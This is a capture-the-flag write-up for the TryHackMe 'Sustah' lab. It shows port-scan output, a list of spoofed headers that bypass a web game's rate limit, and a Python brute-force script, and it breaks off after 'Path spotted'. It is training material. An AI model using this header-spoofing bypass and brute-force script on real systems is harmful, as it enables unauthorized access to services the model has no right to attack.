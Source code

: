 ----------------

### CTF:TRYHACKME
### LAB:SUSTAH

----------------

![image](https://github.com/user-attachments/assets/3532c973-c888-41ab-a3ff-a45bd412952d)

-----------------

### Reconnaissance

- Rustscan's output

      ❯ rustscan -a 10.10.239.27 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.239.27:22
      Open 10.10.239.27:80
      Open 10.10.239.27:8085
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 06:51 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:51
      Completed NSE at 06:51, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:51
      Completed NSE at 06:51, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:51
      Completed NSE at 06:51, 0.00s elapsed
      Initiating Ping Scan at 06:51
      Scanning 10.10.239.27 [2 ports]
      Completed Ping Scan at 06:51, 0.20s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 06:51
      Completed Parallel DNS resolution of 1 host. at 06:51, 0.27s elapsed
      DNS resolution of 1 IPs took 0.30s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:51
      Scanning 10.10.239.27 [3 ports]
      Discovered open port 22/tcp on 10.10.239.27
      Discovered open port 80/tcp on 10.10.239.27
      Discovered open port 8085/tcp on 10.10.239.27
      Completed Connect Scan at 06:51, 0.18s elapsed (3 total ports)
      Initiating Service scan at 06:51
      Scanning 3 services on 10.10.239.27
      Completed Service scan at 06:51, 6.76s elapsed (3 services on 1 host)
      NSE: Script scanning 10.10.239.27.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:51
      Completed NSE at 06:51, 7.61s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:51
      Completed NSE at 06:51, 1.03s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:51
      Completed NSE at 06:51, 0.01s elapsed
      Nmap scan report for 10.10.239.27
      Host is up, received syn-ack (0.19s latency).
      Scanned at 2024-08-21 06:51:04 EDT for 16s
      
      PORT     STATE SERVICE REASON  VERSION
      22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUwhTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
      |   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPamSRLzNWmJpwzaV65w=
      |   256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
      80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-methods: 
      |_  Supported Methods: OPTIONS GET HEAD POST
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Susta
      8085/tcp open  http    syn-ack Gunicorn 20.0.4
      | http-methods: 
      |_  Supported Methods: POST GET HEAD OPTIONS
      |_http-server-header: gunicorn/20.0.4
      |_http-title: Spinner
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- Port `8085` presents a spinner game
![image](https://github.com/user-attachments/assets/61be41fd-5b25-4cbb-9c1b-b04a9487dbb0)

- The developers added a rate limit mechanism to the game to prevent bruteforce.

![image](https://github.com/user-attachments/assets/ae9e7e98-4376-4bb4-b388-2c4eb018c3fd)

- I got a list of headers to bypass the rate limit fro [hacktrickz](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

      X-Originating-IP: 127.0.0.1
      X-Forwarded-For: 127.0.0.1
      X-Remote-IP: 127.0.0.1
      X-Remote-Addr: 127.0.0.1
      X-Client-IP: 127.0.0.1
      X-Host: 127.0.0.1
      X-Forwared-Host: 127.0.0.1
      
- Headers `X-Remote-Addr` and `X-Forwarded-Host` did trick and bypassed the rate limit

![image](https://github.com/user-attachments/assets/c456cd55-7e21-4dbb-8c02-9089d1a15c02)

- I wrote a script to bruteforce the number.

      #! /usr/bin/env python3
      import requests
      
      headers = {"X-Remote-Addr":"127.0.0.1","X-Forwarded-Host": "127.0.0.1","Content-Type":"application/x-www-form-urlencoded"}
      
      for i in range(9999,99999):
          data =  {"number": i}
          ip = "10.10.61.14"
          failMessage = "Oh no! How unlucky. Spin the wheel and try again."
          response = requests.post(f"http://{ip}:8085/",headers=headers,data=data).text
          if failMessage in response:
              print(f"[+]Path not in number {i}")
          else:
              print(response)
              break

- Path spotted
- 

